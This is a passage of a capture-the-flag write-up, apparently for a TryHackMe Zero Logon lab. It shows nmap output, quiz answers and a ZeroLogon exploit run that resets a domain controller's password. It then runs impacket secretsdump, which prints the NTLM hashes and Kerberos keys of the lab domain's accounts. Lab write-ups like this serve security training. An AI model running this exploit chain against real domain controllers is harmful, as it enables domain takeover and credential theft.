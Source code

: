 ```
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-10-30T14:24:37
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 282.92 seconds
```

1. What is the NetBIOS name of the Domain Controller?

`DC01`

2. What is the NetBIOS domain name of the network?

`HOLOLIVE`

3. What domain are you attacking?

`hololive.local`

4. What is the Local Administrator's NTLM hash?

```
(impacketEnv) kali@kali:~/CTFs/tryhackme/Zero Logon$ python3 zeroLogon-NullPass.py DC01 10.10.162.183

 _____                   __
/ _  / ___ _ __ ___     / /  ___   __ _  ___  _ __
\// / / _ \ '__/ _ \   / /  / _ \ / _` |/ _ \| '_ \
 / //\  __/ | | (_) | / /__| (_) | (_| | (_) | | | |
/____/\___|_|  \___/  \____/\___/ \__, |\___/|_| |_|
                                  |___/
                Vulnerability Discovered by Tom Tervoort
                              Exploit by Ronnie Bartwitz

Performing authentication attempts...
Failure to Autheticate at attempt number: 148
Zero Logon successfully exploited, changing password.
```

```
(impacketEnv) kali@kali:~/CTFs/tryhackme/ZeroLogon$ ./impacketEnv/bin/secretsdump.py -just-dc -no-pass DC01\$@10.10.162.183
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3f3ef89114fb063e3d7fc23c20f65568:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2179ebfa86eb0e3cbab2bd58f2c946f5:::
hololive.local\a-koronei:1104:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
hololive.local\a-fubukis:1106:aad3b435b51404eeaad3b435b51404ee:2c90bc6c1c35b71f455f3d08cf4947bd:::
hololive.local\matsurin:1107:aad3b435b51404eeaad3b435b51404ee:a4c59da4140ebd8c59410370c687ef51:::
hololive.local\fubukis:1108:aad3b435b51404eeaad3b435b51404ee:f78bb88e1168abfa165c558e97da9fd4:::
hololive.local\koronei:1109:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
hololive.local\okayun:1110:aad3b435b51404eeaad3b435b51404ee:a170447f161e5c11441600f0a1b4d93f:::
hololive.local\watamet:1115:aad3b435b51404eeaad3b435b51404ee:50f91788ee209b13ca14e54af199a914:::
hololive.local\mikos:1116:aad3b435b51404eeaad3b435b51404ee:74520070d63d3e2d2bf58da95de0086c:::
DC01$:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:3415e858d1caff75baeb02c4dd7154328ea6c87f07336a5c926014392a40ed49
```
